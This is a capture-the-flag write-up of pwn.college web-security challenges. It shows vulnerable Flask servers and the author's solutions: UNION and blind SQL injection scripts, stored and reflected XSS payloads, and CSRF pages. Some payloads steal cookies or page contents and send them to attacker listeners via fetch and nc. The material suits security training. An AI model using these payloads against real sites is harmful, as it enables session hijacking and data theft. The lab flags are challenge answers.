        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql.replace(random_user_table, "REDACTED") }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

We query the `sqlite_master` table that contains metadata about the tables of the database.

```
hacker@web-security~sqli-4:~$ curl "http://challenge.localhost/?query=admin\"+UNION+SELECT+name+FROM+sqlite_master+WHERE+type='table'+--+-"

        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='admin" UNION SELECT name FROM sqlite_master WHERE type='table' -- -'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT name FROM sqlite_master WHERE type='table' -- -"</pre><br>
        <b>Results:</b><pre>admin
users_4601751964</pre>
        </body></html>
        hacker@web-security~sqli-4:~$
hacker@web-security~sqli-4:~$ curl "http://challenge.localhost/?query=admin\"+UNION+SELECT+password+FROM+users_4601751964+--+-"

        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='admin" UNION SELECT password FROM users_4601751964 -- -'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT password FROM REDACTED -- -"</pre><br>
        <b>Results:</b><pre>admin
password
pwn.college{sr7WuY60SYzxqakwHS6xJg-h4MU.QXykzMzwyMyITOyEzW}
</pre>
        </body></html>
```

## SQLi 5

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, 'password' as password""")


@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    try:
        # https://www.sqlite.org/lang_select.html
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{ password }'"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or password")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)


@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Password:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

My script to solve the challenge:
```python
import requests

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789.-_"

secret = ""

done = False

while not done:
    i = 0
    while i < len(chars):
        c = chars[i]
        payload = {
            "username": "admin' AND password GLOB 'pwn.college{%s*' -- -" % (secret + c),
            "password": "doesnt_matter",
        }

        resp = requests.post("http://challenge.localhost/", data=payload, allow_redirects=False)

        if resp.status_code == 302:
            secret += c
            break

        i += 1

    if i == len(chars):
        done = True

print("pwn.college{%s}" % secret)
```

We used `GLOB` because `LIKE` in SQLite is sadly case insensitive.

```
hacker@web-security~sqli-5:~$ python sqli5_blind.py
pwn.college{ADlaLjN2akH0reK_2skqxAVxXET.QXzkzMzwyMyITOyEzW}
```

## XSS 1

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I
# /challenge/server

import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE posts AS SELECT "First Post!" AS content""")


@app.route("/", methods=["POST"])
def challenge_post():
    content = flask.request.form.get("content", "")
    db.execute("INSERT INTO posts VALUES (?)", [content])
    return flask.redirect(flask.request.path)


@app.route("/", methods=["GET"])
def challenge_get():
    page = "<html><body>\nWelcome to pwnpost, the anonymous posting service. Post away!\n"
    page += "<form method=post>Post:<input type=text name=content><input type=submit value=Submit></form>\n"

    for post in db.execute("SELECT content FROM posts").fetchall():
        page += "<hr>" + post["content"] + "\n"

    return page + "</body></html>"


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I
# /challenge/victim

import requests
import psutil
import sys
import re

open_ports = {s.laddr.port for s in psutil.net_connections(kind="inet") if s.status == "LISTEN"}
if 80 not in open_ports:
    print("Service doesn't seem to be running?")
    sys.exit(1)
challenge_url = "http://challenge.localhost:80/"
flag = open("/flag").read().strip()

print(f"Visiting {challenge_url}...")
try:
    num_inputs = len(re.findall(r"<input[^<]*>", requests.get(challenge_url, timeout=1).text))
    if num_inputs <= 2:
        print("You did not inject an <input> textbox...")
    else:
        print("You got it! Here is your flag:")
        print(flag)
except requests.exceptions.ConnectionError:
    print("Connection error... Is the service running?")
```

Just submit three `<input></input>`.



Flag: `pwn.college{A5tb6Kd9UrQeTQ2JteR9zDzchi9.QX1cTN2wyMyITOyEzW}`

## XSS 2



Submit `<script>alert("PWNED")</script>`.

Flag: `pwn.college{8XGBHA0aqgMcUA54D4CeTnUL0kK.QX3cTN2wyMyITOyEzW}`

## XSS 3



Flag: `pwn.college{4XvDQHaf0eEGtZXTXOdpXiMJRzb.QX0kzMzwyMyITOyEzW}`

```
/challenge/victim 'http://challenge.localhost/?msg=%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E'
```

## XSS 4



Insert `</textarea><script>alert("PWNED")</script>`.

Flag: `pwn.college{kgaedczaA-PBF2PWs53OQE1L6qw.QX1kzMzwyMyITOyEzW}`

## XSS 5

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I
# /challenge/server 

import flask
import os

app = flask.Flask(__name__)


flag = open("/flag").read().strip() if os.geteuid() == 0 else "pwn.college{fake_flag}"

import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE posts AS SELECT ? AS content, "admin" AS author, FALSE AS published""", [flag])
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [flag])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")
db.execute("""INSERT INTO users SELECT "hacker" as username, "1337" as password""")


@app.route("/login", methods=["POST"])
def challenge_login():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    flask.session["username"] = username
    return flask.redirect("/")


@app.route("/draft", methods=["POST"])
def challenge_draft():
    if "username" not in flask.session:
        flask.abort(403, "Log in first!")

    content = flask.request.form.get("content", "")
    # https://www.sqlite.org/lang_insert.html
    db.execute(
        "INSERT INTO posts (content, author, published) VALUES (?, ?, ?)",
        (content, flask.session.get("username"), bool(flask.request.form.get("publish"))),
    )
    return flask.redirect("/")


@app.route("/publish", methods=["GET"])
def challenge_publish():
    if "username" not in flask.session:
        flask.abort(403, "Log in first!")

    # https://www.sqlite.org/lang_update.html
    db.execute("UPDATE posts SET published = TRUE WHERE author = ?", [flask.session.get("username")])
    return flask.redirect("/")


@app.route("/", methods=["GET"])
def challenge_get():
    page = "<html><body>\nWelcome to pwnpost, now with users!<hr>\n"
    username = flask.session.get("username", None)
    if username:
        page += """
            <form action=draft method=post>
              Post:<textarea name=content>Write something!</textarea>
              <input type=checkbox name=publish>Publish
              <input type=submit value=Save>
            </form><br>
            <a href=publish>Publish your drafts!</a>
            <hr>
        """

        for post in db.execute("SELECT * FROM posts").fetchall():
            page += f"""<h2>Author: {post["author"]}</h2>"""
            if post["published"]:
                page += post["content"] + "<hr>\n"
            else:
                page += f"""(Draft post, showing first 12 characters):<br>{post["content"][:12]}<hr>"""
    else:
        page += """
            <form action=login method=post>
              Username:<input type=text name=username>
              Password:<input type=text name=password>
              <input type=submit name=submit value=Login>
            </form><hr>
        """

    return page + "</body></html>"


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I
# /challenge/victim

import psutil
import urllib
import atexit
import time
import sys
import os

from selenium import webdriver
from selenium.webdriver.firefox.options import Options as FirefoxOptions
from selenium.webdriver.firefox.service import Service as FirefoxService
from selenium.webdriver.common.by import By
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import TimeoutException, WebDriverException

os.setuid(os.geteuid())
os.environ.clear()
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

options = FirefoxOptions()
options.add_argument("--headless")
service = FirefoxService(log_path="/dev/null")
browser = webdriver.Firefox(service=service, options=options)
atexit.register(browser.quit)

open_ports = {s.laddr.port for s in psutil.net_connections(kind="inet") if s.status == "LISTEN"}
if 80 not in open_ports:
    print("Service doesn't seem to be running?")
    sys.exit(1)

challenge_url = "http://challenge.localhost:80/"

print(f"Visiting {challenge_url}")
browser.get(challenge_url)

browser.find_element(By.NAME, "username").send_keys("admin")
browser.find_element(By.NAME, "password").send_keys(open("/flag").read().strip())
browser.find_element(By.NAME, "submit").submit()

time.sleep(2)
print("Visited! Go check if the attack worked!")
```



Log in with `guest:password`.

Insert, mark the `Publish` checkbox and Submit:
```html
<script>fetch("http://challenge.localhost/publish")</script>
```

When the victim visits the URL, the Stored XSS will make a request to publish all their posts.

Flag: `pwn.college{UQTfwrydITo0GrJls1HsStm_ew7.QX2kzMzwyMyITOyEzW}`

## XSS 6

Now we have to make a `POST` request with the JavaScript `fetch` API.

The payload is
```html
<script>fetch("http://challenge.localhost/publish",{method:"post"})</script>
```



Flag: `pwn.college{EfLhUk36em84aDsC_1vIJod8_Vu.QXwgTN2wyMyITOyEzW}`

## XSS 7

Now we need to make a request to steal the victim's cookies.

The cookie name seems to be `auth`.



So our payload (we base64 encode the cookie) will be
```
<script>fetch(`http://127.0.0.1:9001/${btoa(document.cookie)}`)</script>
```



On the `python -m http.server 9001` listener, we get the cookie `YXV0aD1hZG1pbnwuUVh5Z1ROMnd5TXlJVE95RXpXfQ==`

```
hacker@web-security~xss-7:~$ echo -n "YXV0aD1hZG1pbnwuUVh5Z1ROMnd5TXlJVE95RXpXfQ==" | base64 -d
auth=admin|.QXygTN2wyMyITOyEzW}
```

We insert the cookie and get the admin session:



Flag: `pwn.college{IfVyqL8XKGwK7AM8CT-696xmGny.QXygTN2wyMyITOyEzW}`

## CSRF 1



Our CSRF page:

```html
<html>
<form action="http://challenge.localhost/publish" method="GET">
</form>
<script>
document.forms[0].submit();
</script>
</html>
```

> Note: other methods like JavaScript's `fetch` or `` do not work. The cookies aren't sent.

Flag: `pwn.college{MHL2EuaEjFanDqVvAovgmmu2PgK.QX3kzMzwyMyITOyEzW}`

## CSRF 2



Just change the `form` method to `POST` in our CSRF page:

```html
<html>
<form action="http://challenge.localhost/publish" method="POST">
</form>
<script>
document.forms[0].submit();
</script>
</html>
```

Flag: `pwn.college{0h5DRRlgJ3P29z8NbtOzxMr8i5i.QX4kzMzwyMyITOyEzW}`

## CSRF 3

Here we send the URL GET parameter `msg` with the XSS payload as an `input` inside the `form`.



```html
<html>
<form action="http://challenge.localhost/ephemeral" method="GET">
<input type="hidden" name="msg" value='<script>alert("PWNED")</script>'/>
</form>
<script>
document.forms[0].submit();
</script>
</html>
```

Flag: `pwn.college{ECdsVVwloTQWTDZaXSZjiKpoxjI.QXzgTN2wyMyITOyEzW}`

## CSRF 4

Here we exploit the XSS through a CSRF page that makes a request to steal cookies.

```html
<html>
<form action="http://challenge.localhost/ephemeral" method="GET">
<input type="hidden" name="msg" value='<script>fetch(`http://hacker.localhost:1337/${btoa(document.cookie)}`)</script>'/>
</form>
<script>
document.forms[0].submit();
</script>
</html>
```



We get the base64 encoded cookie `YXV0aD1hZG1pbnwuUVg1a3pNend5TXlJVE95RXpXfQ==`.

```
hacker@web-security~csrf-4:~$ echo -n "YXV0aD1hZG1pbnwuUVg1a3pNend5TXlJVE95RXpXfQ==" | base64 -d
auth=admin|.QX5kzMzwyMyITOyEzW}
```

Then we put the admin cookies to log in.



Flag: `pwn.college{4jCEJVQiluoyA4QPKW-KoskPPOH.QX5kzMzwyMyITOyEzW}`

## CSRF 5

Here we `fetch` the posts page content (raw HTML) and send it base64 encoded to our `nc -lvnp 1338` listener.

Observe that we send the data as the body of a `POST` request.

```html
<html>
<form action="http://challenge.localhost/ephemeral" method="GET">
<input type="hidden" name="msg" value='<script>fetch("http://challenge.localhost/").then(r => r.text()).then(content => { fetch("http://hacker.localhost:1338", {method:"POST",body:btoa(content)}); })</script>'/>
</form>
<script>
document.forms[0].submit();
</script>
</html>
```

We set up `python -m http.server 1337` and `nc -lvnp 1338`.



Executing `/challenge/victim`, we receive the base64 encoded raw HTML.

